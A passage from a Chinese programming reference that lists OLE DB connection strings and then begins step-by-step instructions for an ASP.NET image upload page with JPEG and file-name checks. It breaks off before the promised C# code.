strConnect = _T("Provider=OraOLEDB.Oracle;Data Source=MyOracleDB;OSAuthent=1;")
```

#### OLE DB Provider for Visual FoxPro

```
strConnect = _T("Provider=vfpoledb;Data Source=C:\DatabasePath\MyDatabase.dbc;");
```

#### OLE DB Provider for Index Server

```
strConnect = _T("provider=msidxs;Data Source=MyCatalog;");
```

本文主要是作为编程时的查询资料，在查询时注意要根据所工作的模式、环境以及是否使用OLE进行编程等情况进行编程。

## 9.4 使用ASP.NET实现图像上传

一般我们使用ASP实现图像上传的功能都是通过使用外部组建来实现的。随着.NET的推出，ASP的功能得到了更大的扩展，操作图像的能力通过Bitmap和Image class运用起来将更加轻松自如。

在本文中，我们将逐步建立一个包含图像文件的网页，该网页包含图片上传功能，同时还能判断是

### 编程解析精粹

否是一个JPEG文件，文件名是否相同等，还能建立一个包含所上传文件名称的文件。

本文采用了.NET Web Forms和C#的基本知识。下面我们开始吧！

- 1. 新建一个新的Web应用程序工程；
- 2. 打开Web页；
- 3. 在控件HTML书签中新增一个File Filed控件，并将其命名为filUpload，并将它转换为服务控件运行（在网页空白处单击鼠标右键，然后点击“作为服务器控件运行”）；
- 4. 通过HTML标签来加密multipart/form-data，例如：enctype=“multipart/form-data”；
- 5. 在网页中增加一个按钮，命名为btmUpload；
- 6. 增加一个文件夹“/images”到我们的Web 应用程序中；
- 7. 在网页中增加一个图像框，并把它命名为imgPicture。并调整它的宽度为160，高度为120；
- 8. 增加一个Label控件命名为lblOutput。用它来返回错误信息；
- 9. 在btmUpload Click事件中，增加下面所列出的源代码：

